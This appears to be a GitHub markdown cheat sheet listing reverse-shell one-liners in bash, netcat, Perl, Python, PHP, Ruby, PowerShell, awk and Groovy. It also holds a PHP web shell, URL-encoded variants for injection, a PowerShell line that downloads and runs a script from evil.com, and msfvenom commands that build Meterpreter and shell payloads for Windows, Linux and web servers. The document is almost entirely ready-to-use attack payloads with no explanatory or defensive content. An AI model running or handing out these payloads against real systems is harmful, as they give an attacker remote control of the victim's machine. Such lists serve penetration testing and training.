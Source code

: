 * Bash

  ```cmd
  bash -i >& /dev/tcp/192.168.1.2/443 0>&1

  bash -c "bash -i >& /dev/tcp/192.168.1.2/443 0>&1"
  
  bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.2%2F443%200%3E%261%22
  ```
  
* Web Shell

  ```php
  <?php system($_GET['cmd']);?>
  ```

* Netcat

  ```cmd
  nc -e /bin/sh 192.168.1.2 443

  nc -e /bin/bash 192.168.1.2 443

  nc -c bash 192.168.1.2 443
  
  nc.exe -e cmd 192.168.1.26 443

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f
  
  rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.1.2%20443%20%3E%2Ftmp%2Ff
  ```

* Perl

  ```cmd
  perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

* Python

  ```cmd
  export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  ```

* PHP

   ```php
  php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'

  php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
  ```

* Ruby

  ```cmd
  ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

  ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

  ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  ```
  
* Xterm

   ```cmd
   xterm -display 192.168.1.2:443
   ```
   
* Ncat

  ```cmd
  ncat 192.168.1.2 443 -e /bin/bash
  ```

* Powershell

  ```powershell
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  ```

  ```powershell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

  ```powershell
  powershell IEX (New-Object Net.WebClient).DownloadString('https://www.evil.com/reverse.ps1')
  ```

* Awk

  ```cmd
  awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
  ```
  
  
* Groovy

  ```cmd
  String host="192.168.1.2";
  int port=443;
  String cmd="cmd.exe";
  Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
  ```


# Msfvenom

* Php

  ```msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php```

  ```msfvenom -p php/reverse_php LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php```

* War

  ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war```
  
* Aspx

  ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f aspx -o reverse.aspx```

## Windows

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

## Linux

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```
